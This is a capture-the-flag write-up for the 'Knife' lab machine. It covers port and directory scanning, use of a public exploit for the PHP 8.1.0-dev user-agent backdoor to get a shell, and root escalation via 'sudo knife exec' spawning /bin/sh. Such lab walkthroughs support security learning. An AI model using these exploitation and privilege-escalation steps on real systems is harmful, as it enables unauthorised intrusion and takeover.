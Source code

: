 ## ENUMERATION

```jsx
nmap -p- --min-rate=10000 -oN nmap 10.10.10.242 -v

PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

We see 2 ports open 80 and 22

enum for web

```jsx
ffuf -u http://10.10.10.242/FUZZ -ic -c -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 64 

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://10.10.10.242/FUZZ
 :: Wordlist         : FUZZ: /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 64
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

                        [Status: 200, Size: 5815, Words: 646, Lines: 221, Duration: 414ms]

```

ran fuff but nothing was there

The web page was also clean
![image](https://github.com/user-attachments/assets/925789e8-be43-4f5d-b998-209be191580b)
I searched forphp8.1.0 and there was a cve of rce using the user agent

## EXPLOITATION

https://www.exploit-db.com/exploits/49933

```jsx
python3 exp.py
Enter the full host url:
http://knife.htb

Interactive shell is opened on http://knife.htb 
Can't acces tty; job crontol turned off.
$ whoami
james

$ ls /home/james
user.txt
```

Here we got our rev shell

## POST EXPLOITATION

i tired to see and binary we can run with sudo privs
![image](https://github.com/user-attachments/assets/ba198885-172d-418a-817e-f69d4a833022)
i got this binary knife

This binary is capable of running some ruby core scripts

we can run sudo commands using the command 

```jsx
sudo /usr/bin/knife exec -E 'exec "/bin/sh"'
```

Executing this i go error  

```jsx
no input file selected.
```
![image](https://github.com/user-attachments/assets/d08abbc6-ef4a-4a12-8eea-6bfacef94a51)

This error is probably becuase we are running a php/php-cgi and we have to provide a input file.

Getting a reverse shell

![image](https://github.com/user-attachments/assets/2cead4a8-3874-471d-ad09-9898e8ea6e98)

And we got our reverse shell (sh)

After executing 

```jsx
sudo /usr/bin/knife exec -E 'exec "/bin/sh"'
```

We got our reverse shell

![image](https://github.com/user-attachments/assets/b10be3b6-294c-485a-bd61-c8250eacafdd)

